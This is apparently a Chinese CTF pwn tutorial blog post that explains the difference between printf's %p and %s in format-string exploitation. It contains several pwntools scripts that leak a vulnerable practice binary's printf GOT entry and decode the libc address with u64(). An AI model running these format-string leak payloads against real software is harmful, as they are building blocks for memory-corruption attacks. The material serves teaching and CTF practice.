

%p 和 %s的区别是什么？int()接收数据还是u64()接收数据？

<!-- more -->

## 前言

最近做题的时候，利用printf的格式化字符串漏洞泄露地址的时候，不知道%p和%s的区别，经过多次测试，这里做个记录

### 1. %p 和 %s的区别

我们先看看两者的区别：

- %p：输出16进制数据(**注意是小端序**)，与%x基本一样，只是附加了前缀0x，在32bit下输出4字节，在64bit下输出8字节，可通过输出字节的长度来判断目标环境是32bit还是64bit。**常用来泄露格式化参数偏移量**

- %s：输出的内容是字符串，**即将偏移处指针指向的字符串输出**，如%i$s表示输出偏移i处地址所指向的字符串，在32bit和64bit环境下一样，**可用于读取GOT表等信息。**

**补充一下：小端序是指16进制的低位数据，在栈中的位置也是处于低地址。 即 16进制低位 <-> 栈低地址**

### 2. 实例测试

这是某一道题main函数的伪代码：

```
int __fastcall __noreturn main(int argc, const char **argv, const char **envp)
{
  char buf[264]; // [rsp+0h] [rbp-110h] BYREF
  unsigned __int64 v4; // [rsp+108h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  init(argc, argv, envp);
  while ( 1 )
  {
    read(0, buf, 0x100uLL);
    printf(buf);
  }
}
```

我们主要是关注下面这里两段，输入read()和格式化输出printf()

```
read(0, buf, 0x100uLL);
printf(buf);
```

先测试一下我们输入字符串的偏移量是多少，**一般是用 `%p` 来测试**

<div align=center></div>

可以看到是第6位（**以16进制形式打印出栈上的数据**），所以`aaaaaaaa`会以`0x6161616161616161`的形式打印出来。

**我再说一遍，是小端序的结果打印出来，所以第一个`a`所对应的其实是最后一个`61`**。

这里还有我之前做的几个关于格式化字符串的题，建议去看看:

[BaseCTF2024-Week2-PWN](https://whitea133.github.io/BaseCTF2-Pwn/)

这这一篇文章里有两道fmt的基础题，我有讲解如何计算偏移量

现在我们用gdb调试具体看看栈的情况：

**我在read()函数执行时，输入`aaaaaaaa`**

<div align=center></div>

**再到printf后的下一步，这时候看看栈上的情况**：

<div align=center></div>

可以看到栈数据上的第一位是我们输入的字符串`aaaaaaaa`,所以偏移量为6 (1 + 5 = 6) 

**我们再着重关注一下栈上数据的内容：**

我们知道栈的第一个数据是`aaaaaaaa`,我们又知道刚才 **第六个**`%p`打印出的数据是 `0x6161616161616161` 

<mark>所以我们还能证明 `%p`的作用 就是以16进制的形式，按小端序来打印出对应栈上的内容(同时开头加上了0x)</mark>

**！！注意：明确的了解 %p 作用, 对于我们区分 `%p` 和 `%s` 这两者有很大的帮助**


#### 2.1 %p占位符测试

刚才上面测试出了输入数据的偏移量，还简要分析了一下`%p`的作用

**现在是正式开始测试 `%p`和 `%s`的不同**

这里我测试的脚本如下，先测试打印偏移量为6的数据：

```
from pwn import *

context(arch='amd64',log_level='debug',os='linux')

io=process('./fmt2')
elf=ELF('./fmt2')
gdb.attach(io,'b *(0x40122b)') #printf函数前一步的断点
printf_got=elf.got['printf'] #我们要暴露got表中记录printf的地址

payload=b'%aaaa7$p' + p64(printf_got) #已知输入数据的偏移量为6
time.sleep(0.3)
io.sendline(payload)
a = io.recv()
print(a)

io.interactive()
```

我们gdb动态调试到printf函数的下一步，看看情况：

<div align=center></div>

先看左边，printf()打印出的内容是`aaaa0x7024362561616161\x083@`

再看右边栈的数据是`0x7024362561616161` （这是偏移量为6的数据），很明显是16进制的。

而再右边的`aaaa%6$p`，这是`0x7024362561616161`16进制前的字符串内容。我们很明显可以看到前面的 `a`，它的十六进制 `61` 居然在后面，**这就是小端序的作用**

我用excel表格给大家画一下：

<div align=center></div>

**所以我们总结一下：**

**我们输入的内容为`aaaa%6$p`,printf会进行打印。先打印完`aaaa`，当打印到`%6$p`时会触发占位符的转换，`%6$p`会被替换为偏移量为6的数据，即`0x7024362561616161`**

**所以最终的打印结果为`aaaa0x7024362561616161`**

**至于后面的`\x083@`,目前还没搞懂，但是不用管，我们知道就行，没啥影响。**

我们尝试用 `%p` 来暴露 got表的位置，看看会有什么错误（是的，%p无法用来爆got表）

`%p` 爆got表测试脚本如下：

```
from pwn import *

context(arch='amd64',log_level='debug',os='linux')

io=process('./fmt2')
elf=ELF('./fmt2')
gdb.attach(io,'b *(0x40122b)')
printf_got=elf.got['printf']

payload=b'aaaa%7$p' + p64(printf_got) #泄露偏移量为7的数据，即printf_got
time.sleep(0.3)
io.sendline(payload)
a = io.recv()
print(a)

io.interactive()
```

结果如下：

<div align=center></div>

可以看到左边打印出的内容是`aaaa0x403308\x083@`

其中 `0x403308`替代了占位符 `%7$p` 的位置。 观察右边就可以看到 `0x403308` 在栈中的位置

**很显然 `0x403308` 只是 printf的got表的位置。**

**而我们要的东西，是printf的got表中，记录printf函数真实地址的数据**

我们要的东西如图所示：

<div align=center></div>

可以看到是在 `0x403308` 的右边，即 `0x403308` 指针指向的地址。

而  `%p` 只能帮我们打印出 `0x403308`。

**由此可见， `%p` 无法帮助我们改写got表的地址。**

#### 2.2 %s占位符测试

测试脚本和第一个 `%p` 的一模一样，只是把 `%p` 换成了 `%s`

```
from pwn import *

context(arch='amd64',log_level='debug',os='linux')

io=process('./fmt2')
elf=ELF('./fmt2')
#gdb.attach(io,'b *(0x40122b)')
printf_got=elf.got['printf']

payload=b'aaaa%6$s' + p64(printf_got) #只是把%p换成%s
time.sleep(0.3)
io.sendline(payload)
a = io.recv()
print(a)

io.interactive()
```

测试结果如下：

<div align=center></div>

发生了报错。原因是什么呢？

自己看下图：

<div align=center></div>

因为我们知道 `%s` 是**以字符串打印出指针所指向的内容**。

这里在偏移量为6的数据，我们的指针是 `0x7324362561616161` ，它指向的内容是什么？？

**根本没有！对吧。 那你还想打印出什么东西？不报错才怪呢。**

不信？

我们修改偏移量为7，看看能不能打印出下一个数据，指针`0x403308` 所指向的内容

测试脚本如下：

```
from pwn import *

context(arch='amd64',log_level='debug',os='linux')

io=process('./fmt2')
elf=ELF('./fmt2')
#gdb.attach(io,'b *(0x40122b)')
printf_got=elf.got['printf']

payload=b'aaaa%7$s' + p64(printf_got)
time.sleep(0.3)
io.sendline(payload)
a = io.recv()
print(a)

io.interactive()
```

结果如下：

<div align=center></div>

**可以看到这一次成功打印出来了指针`0x403308`所指向的内容，即printf函数的真实地址`0x7522962606f0`**

但是注意，我们仔细看一下左边打印的内容。

**因为我们是按字符串格式打印出的数据，所以他是以类似 `\xf0\x06&\x96"u`这样的格式打印出来的，有些字符可能已经被转换了，如 `26` 变成了 `06&` 中的 `&`**

**这里有一个方法，我们可以观察上面的Received bytes来对照一下有没有接收无误** 

**因为我们一般要接收的东西是形如 `0x123456` 这样的地址，只有这样才方便我们用p64()进行打包发送**

那我们要怎么把 `\xf0\x06&\x96"u` 这样格式的内容变成我们想要的格式呢？

**这里我给出正确的方法：用u64()调整即可**

我们常用的句子如下：

```
function_addr = u64(io.recv(6).ljust(8,b'\x00')) 
print(hex(function_addr))
```

我们利用上述方法改写一下脚本：

```
from pwn import *

context(arch='amd64',log_level='debug',os='linux')

io=process('./fmt2')
elf=ELF('./fmt2')
gdb.attach(io,'b *(0x40122b)')
printf_got=elf.got['printf']

payload=b'%7$saaaa' + p64(printf_got) #这里我把aaaa放在占位符后面，因为我们不需要接收aaaa
#aaaa放在占位符前面也行，只是要记得 io.recvuntil('aaaa')
time.sleep(0.3)
io.sendline(payload)

print_addr = u64(io.recv(6).ljust(8,b'\x00')) #recv(6)是接收6个字节
#因为一般的地址开头的两个字节都是00，即\x00\x00 。这里用ljust填补到8字节即可
print(hex(print_addr))
io.interactive()
```

脚本测试结果如下：

<div align=center></div>

**完美地取到了我们想要的地址**

所有的测试完毕

### 3. 补充：不同的接收方式

对于打印出来的结果是类似 `0x123456789abc` (**一般是14个字符，包括了0x**)这样的地址

**因为这样的地址类似字符串，每一个字符都是1个字节，包括 0 和 x，所以我们全部接收的话，就要接收14个字节（不能漏掉0x）**

**我们的目的是要把这样的数据,变成数字类型的** `0x123456789abc`

我们的接收方式是:

```
addr=int(io.recv(14),16) #把0x123456789abc的内容全部接收，并字节类型为数字类型
print("addr:" + hex(addr)) #输出地址看看（16进制）
```

对于打印出来的结果是类似 `\x12\x34\x56\x78\x9a\xbc` (**一般分为6组\x，每一组一个字节**)这样的地址。

**这样的地址，前面的是低位，后面的是高位。如这里的 `\x12` 是低位，`\xbc` 是高位。 所以对应的就是 `0xbc9a78563412`**

我们要用以下方法来接收：

```
addr = u64(io.recv(6).ljust(8,b'\x00')) #把6个字节都接收了，并把 \x--\x-- 这样的地址格式变为 0x-------
print(hex(addr)) #输出地址看看（16进制）
```

注意我们最终想要利用的地址都是 `0x123456789abc` 这样的**数字类型**数据

**地址的数据都是8字节，只不过是高位的00被省略掉了而已**

## 结语

好好学，好好练
